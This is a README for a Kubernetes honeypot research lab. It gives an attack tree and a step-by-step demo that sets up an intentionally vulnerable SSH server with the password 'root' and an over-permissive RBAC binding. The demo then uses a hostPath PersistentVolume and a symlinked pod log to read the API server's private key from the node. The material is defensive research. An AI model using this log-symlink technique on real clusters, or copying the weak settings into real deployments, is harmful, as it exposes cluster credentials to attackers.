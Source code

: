 # Honeypots Research

## Simple Attack Tree

As a simple example attack tree, we will look at the attack path made possible if an attacker can create hostPath Persistent Volumes on a cluster, inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html).

```mermaid
flowchart TD
    A[Access sensitive \ninfo on node] --> |*kubectl logs BAD_POD*| B{Escape from \ncontainer \non node}
    A --> more1[. . . . . . . .]
    B -->|*container can run as root*| C[Dangerous Security Context]
    B --> |*writeable hostPath to /var/log*| D{Pod created \nwith PVC referencing \nhostPath PV}
    D --> E[Credentials] 
    D --> |*pod can create Pods/PVs/PVCs*| F[Misconfigured RBAC]
    E --> |*leaked creds used*| G[Initial access to \npod in cluster]
    E --> more2[. . . . . . . .]
```

## Demo

Spin up a kind cluster:

```bash
make cluster-up
```

Install [Tetragon](https://tetragon.io/):

```bash
make tetragon-install
```

Set up a [vcluster](https://www.vcluster.com/) within our kind cluster where our honeypot workloads will run:

```bash
make vcluster-deploy
```

Install [Kyverno](https://kyverno.io/) and enforce baseline Pod Security Standards across the cluster:

```bash
make kyverno-install
```

Install an intentionally vulnerable SSH server:

```bash
make ssh-install
```

Deploy a local storage class for our vcluster:

```bash
make sc-deploy
```

Set up a potentially dangerous Cluster Role and Cluster Role Binding enabling a default Service Account to create pods, persistent volumes, and persistent volume claims:

```bash
make rbac
```

Set up port forwarding to our SSH server:

```bash
make port-forward
```

Switch to a new terminal tab and copy some scripts over to the SSH server. The password is `root`. This represents initial attacker access to our honeypot cluster, via credential compromise:

```bash
make copy-scripts
```

SSH into the server using the same password:

```bash
make ssh-connect
```

From within the SSH session, run a malicious script which will create a HostPath type PersistentVolume which will allow a pod to access `/var/log` on the host (inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html)), using the [Python Kubernetes client library](https://github.com/kubernetes-client/python):

```bash
source priv-create.sh
```

Switch to a new terminal tab and observe the dangerous pod running:

```bash
kubectl get po
```

Let's show that an attacker could use this pod to read arbitrary information from a node in the cluster (in this case we will read the K8s API server's private key). Exec into the pod:

```bash
make exec
```

Run the following from within the pod to write a symlink to its `0.log` file, which is followed by the Node upon `kubectl logs PODNAME` in order to read any file from the Node. `cd` into the directory `/hostlogs/pods/vcluster_bad-pv-pod_......../bad-pv-pod/` and run the following:

```bash
rm 0.log && ln -s /etc/kubernetes/pki/apiserver.key 0.log
```

If the service account compromised by our attacker could inspect the logs of the containers it can create, the attacker could now run:

```bash
k logs bad-pv-pod --tail=-1
```

Note that we can see the first line of the private key.

## Teardown

```bash
make cluster-down
```

## Note for Mac Users
Certain Docker Desktop versions will lead to the following error 
```
level=fatal msg="Load overlay network failed" error="program cil_from_overlay: replacing clsact qdisc for interface cilium_vxlan: operation not supported" interface=cilium_vxlan subsys=datapath-loader
```
downgrading or using an alternative (Orbstack) will solve this . 
